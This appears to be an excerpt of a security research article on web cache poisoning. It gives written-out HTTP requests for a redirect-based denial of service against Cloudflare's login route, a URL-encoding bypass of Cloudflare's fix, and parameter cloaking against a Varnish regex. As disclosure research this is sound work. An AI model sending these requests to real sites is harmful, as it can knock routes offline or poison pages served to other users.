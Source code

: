 Redirect DoS
What if you discover a site where the query string is unkeyed, but there isn't a convenient, overlooked XSS vulnerability? One of my favorite things to do with web cache poisoning is to exploit cache vendor's websites, so let's answer that question using www.cloudflare.com.
Cloudflare's login page resides at dash.cloudflare.com/login, but quite a few links point to cloudflare.com/login, which redirects users via /login/. Using this redirect as our cache oracle, we can quickly confirm that they exclude the query string from the cache key:
GET /login?x=abc HTTP/1.1 Host: www.cloudflare.com Origin: https://dontpoisoneveryone/
HTTP/1.1 301 Moved Permanently Location: /login/?x=abc
GET /login HTTP/1.1 Host: www.cloudflare.com Origin: https://dontpoisoneveryone/
HTTP/1.1 301 Moved Permanently Location: /login/?x=abc
This redirect might not look like it has much exploit potential, but cache poisoning can turn almost anything into a DoS threat. If we pad our query string up to the maximum request URI length:
GET /login?x=very-long-string... HTTP/1.1 Host: www.cloudflare.com Origin: https://dontpoisoneveryone/
Then when someone else tries to visit the login page, they'll naturally get a redirect with a long query string:
GET /login HTTP/1.1 Host: www.cloudflare.com Origin: https://dontpoisoneveryone/
HTTP/1.1 301 Moved Permanently Location: /login/?x=very-long-string...
When their browser follows this, the extra forward slash makes the URI one byte longer, resulting in it being blocked by the server:
GET /login/?x=very-long-string... HTTP/1.1 Host: www.cloudflare.com Origin: https://dontpoisoneveryone/
HTTP/1.1 414 Request-URI Too Large CF-Cache-Status: MISS
So with one request, we can persistently take down this route to Cloudflare's login page. This is all thanks to the redirect; we can't do this attack by sending the overlong URI ourselves because Cloudflare refuses to cache any response with an error status code like 414. The redirect adds a layer of indirection that makes this attack possible. In the same way, even though the login page at dash.cloudflare.com/login isn't cacheable, we could still use cache poisoning to add malicious parameters to it via the redirect.
In general, if you find a cacheable redirect that is actively used and reflects query parameters, you can inject parameters on the redirect destination, even if the destination page isn't cacheable or on the same domain.

Patching Redirects
Cloudflare could have easily patched this by tweaking the redirect on their own site, but that would have left many of their clients vulnerable. Instead, they added a global mitigation to disable caching of redirects that reflect the request's query string. Unfortunately I was able to bypass this using URL encoding:
GET /login?x=%6cong-string... HTTP/1.1 Host: www.cloudflare.com
HTTP/1.1 301 Moved Permanently Location: /login/?x=long-string... CF-Cache-Status: HIT
This bypass has now been resolved, but if you find a server applying any other transformations on the query before placing it in the Location header, you'll be able to bypass the mitigation again.
Cache Parameter Cloaking
So far, we've seen that when sites exclude the entire query string from the cache key, quite a few attacks become possible. But what if a site is simply excluding a specific parameter - say, a harmless analytics parameter like utm_content? In theory, this is unexploitable as long as the site doesn't have any gadgets that reflect the entire URL.
In practice, when a website attempts to exclude a specific parameter from the cache key, we can often exploit URL parsing quirks to trick it into partially excluding arbitrary parameters from the key. We'll refer to this technique as cache parameter cloaking.
Let's start with a soft target - a regex for Varnish taken from StackOverflow, designed to remove the parameter '_':
set req.http.hash_url = regsuball( req.http.hash_url, "\?_=[^&]+&", "?");
Given this regex, and the following request:
GET /search?q=help?!&search=1 HTTP/1.1 Host: example.com
We can poison the parameter 'q' without changing the cache key like so:
GET /search?q=help?_=payload&!&search=1 HTTP/1.1 Host: example.com
Note that because the regex leaves behind a ? in the cache key, we can only poison parameters that contain a question mark. Substitutions like this can often place strange and varied constraints on attacks.

